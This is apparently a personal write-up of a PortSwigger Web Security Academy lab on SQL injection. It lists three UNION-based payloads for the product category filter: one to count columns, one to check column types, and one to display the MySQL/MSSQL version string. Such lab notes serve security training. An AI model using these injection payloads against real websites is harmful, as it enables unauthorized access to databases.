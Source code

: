 # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
###### tags: `Portswigger Web Security Academy` `Web`
* Description: his lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
* Goal: To solve the lab, display the database version string. 

## Exp
1. Consider # of column
Payload: `?category=Accessories' union select NULL,NULL -- #`
2. Consider column type
Payload: `?category=Accessories' union select 'a','a' -- #`
Both of them contained text.
3. Attack
Payload: `?category=Accessories' union select 'abc',@@version -- #`
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/vOx5kCK.png)
    :::

## Reference